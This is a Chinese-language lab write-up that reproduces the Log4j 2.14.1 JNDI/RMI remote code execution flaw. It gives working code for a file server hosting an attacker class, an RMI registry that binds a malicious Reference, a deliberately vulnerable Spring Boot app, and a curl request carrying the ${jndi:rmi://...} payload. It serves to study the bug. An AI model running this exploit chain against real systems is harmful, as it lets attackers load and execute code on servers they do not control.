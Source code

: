 # log4j-rce 漏洞分享

---

[toc]

## 参考

---

-   https://blackhat.com/docs/us-16/materials/us-16-Munoz-A-Journey-From-JNDI-LDAP-Manipulation-To-RCE.pdf
-   https://mp.weixin.qq.com/s/K74c1pTG6m5rKFuKaIYmPg
-   https://github.com/tangxiaofeng7/BurpLog4j2Scan
-   https://github.com/apache/logging-log4j2/tree/master/log4j-core
-   https://kingx.me/Exploit-Java-Deserialization-with-RMI.html

## 原理介绍

---

-   JNDI Java Naming directory interface
-   RMI remote method invoke

基于 JNDI 都可以进行注入我们这里利用 RMI 协议复现 bug, 

![](https://kingx.me/images/articles/rmi/jndi-arch.png)

JNDI API 接口为 Java 提供 API , 用于对 JNDI SPI 进行抽象,JNDI SPI 由实现了不同协议的服务提供,只要实现了上述协议的组件即可被视作 SPI (service provide interface)

而好巧不巧 log4j 为了高扩展性对 spi 进行了支持,我们看 rmi 协议

### RMI

![](https://kingx.me/images/articles/rmi/Post-RMI-Invoke.png)

RMI 可以看做 java 由 JVM 实现的一套远程 RPC 机制(只能jvm内互相调用),其可以做到资源分散以及动态加载类.通常由一个注册表服务器维护,如下列结构

![](https://kingx.me/images/articles/rmi/Post-RMI-Dynamic.png)

上图中主要包含几个部分

-   RMI Client 远程方法调用方
-   RMI Server 静态.class文件服务器
-   RMI Registry 注册表服务



### log4j 2.14.1

---

该版本的下列包存在 JNDI 注入风险

-   log4j-core@2.14.1
-   log4j-api@2.14.1





## 复现

1.  准备静态文件服务器 port 8080

```shell
(base) ➜  classes ll
total 16
-rw-r--r--  1 zhanghaoyang  staff   1.4K 12 12 22:06 HackerClass.class
-rw-r--r--@ 1 zhanghaoyang  staff   141B 12 12 22:16 main.go
(base) ➜  classes cat main.go
```

```go
package main

import (
	"net/http"
)

func main() {
	http.Handle("/", http.FileServer(http.Dir("./")))
	http.ListenAndServe(":8080", nil)
}
```

2.  准备 RMI 注册表服务 port 1099

```java
package com.example.hacker;

import javax.naming.NamingException;
import javax.naming.Reference;
import java.rmi.AlreadyBoundException;
import java.rmi.Remote;
import java.rmi.RemoteException;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;

/**
 * @author zhanghaoyang
 */
public class RMIServer {

    public static void main(String[] args) throws RemoteException, NamingException, AlreadyBoundException, Exception {
        Registry r = LocateRegistry.createRegistry(1099); // 注册 rmi 接口
        Reference reference = new Reference("HackerClass", "HackerClass",
                "http://127.0.0.1:8081/");
      	// 注册 rmi 对应的静态文件服务器
        Remote remote = (Remote) Class.forName("com.sun.jndi.rmi.registry.ReferenceWrapper").getConstructor(Reference.class)
                .newInstance(reference);
      // 这里不知道为啥我 JDK 对其进行了保护? 反射调用,能直接 invoke 也行
        System.out.println(remote);
        r.bind("HackerClass", remote);

        System.out.println("nuclear weapon ready");
    }

}
```

3.  准备某个被攻击的 springboot / springmvc / or else -> port 8888

```java
package com.example.l4jbug;


import org.apache.logging.log4j.LogManager;
import org.apache.logging.log4j.Logger;
import org.springframework.boot.SpringApplication;
import org.springframework.boot.autoconfigure.SpringBootApplication;
import org.springframework.web.bind.annotation.GetMapping;
import org.springframework.web.bind.annotation.RequestMapping;
import org.springframework.web.bind.annotation.RestController;


@SpringBootApplication
public class L4jbugApplication {
    private static Logger log = LogManager.getLogger();

    public static void main(String[] args) {
        System.setProperty("com.sun.jndi.ldap.object.trustURLCodebase", "true");
        System.setProperty("com.sun.jndi.rmi.object.trustURLCodebase", "true");
        System.setProperty("com.sun.jndi.cosnaming.object.trustURLCodebase", "true");
        System.setProperty("java.rmi.server.useCodebaseOnly", "true");
        log.error("${jndi:rmi://127.0.0.1:1099/HackerClass}");
        SpringApplication.run(L4jbugApplication.class, args);
    }
}

@RestController
@RequestMapping("/")
class TestController {
    private static Logger log = LogManager.getLogger();

    @GetMapping("/")
    public void whatever(String name) {
        log.error(name);
    }
}
```

```xml
<?xml version="1.0" encoding="UTF-8"?>
<project xmlns="http://maven.apache.org/POM/4.0.0" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
         xsi:schemaLocation="http://maven.apache.org/POM/4.0.0 https://maven.apache.org/xsd/maven-4.0.0.xsd">
    <modelVersion>4.0.0</modelVersion>
    <parent>
        <groupId>org.springframework.boot</groupId>
        <artifactId>spring-boot-starter-parent</artifactId>
        <version>2.6.1</version>
        <relativePath/> <!-- lookup parent from repository -->
    </parent>
    <groupId>com.example</groupId>
    <artifactId>l4jbug</artifactId>
    <version>0.0.1-SNAPSHOT</version>
    <name>l4jbug</name>
    <description>Demo project for Spring Boot</description>
    <properties>
        <java.version>8</java.version>
    </properties>
    <dependencies>
        <dependency>
            <groupId>org.springframework.boot</groupId>
            <artifactId>spring-boot-starter-web</artifactId>
            <version>2.6.1</version>
            <exclusions>
                <exclusion>
                    <groupId>org.apache.logging.log4j</groupId>
                    <artifactId>log4j-core</artifactId>
                </exclusion>
                <exclusion>
                    <groupId>org.apache.logging.log4j</groupId>
                    <artifactId>log4j-api</artifactId>
                </exclusion>
                <exclusion>
                    <groupId>ch.qos.logback</groupId>
                    <artifactId>logback-classic</artifactId>
                </exclusion>
                <exclusion>
                    <groupId>ch.qos.logback</groupId>
                    <artifactId>logback-core</artifactId>
                </exclusion>
                <exclusion>
                    <groupId>org.springframework.boot</groupId>
                    <artifactId>spring-boot-starter-logging</artifactId>
                </exclusion>
            </exclusions>
        </dependency>
        <dependency>
            <groupId>org.apache.logging.log4j</groupId>
            <artifactId>log4j-core</artifactId>
            <version>2.14.1</version>
        </dependency>
        <!-- https://mvnrepository.com/artifact/org.apache.logging.log4j/log4j-api -->
        <dependency>
            <groupId>org.apache.logging.log4j</groupId>
            <artifactId>log4j-api</artifactId>
            <version>2.14.1</version>
        </dependency>
    </dependencies>

    <build>
        <plugins>
            <plugin>
                <groupId>org.springframework.boot</groupId>
                <artifactId>spring-boot-maven-plugin</artifactId>
            </plugin>
        </plugins>
    </build>
</project>

```





模拟请求

```shell
curl 'localhost:8888?name=%24%7Bjndi%3Armi%3A%2F%2F127.0.0.1%3A1099%2FHackerClass%7D'
```





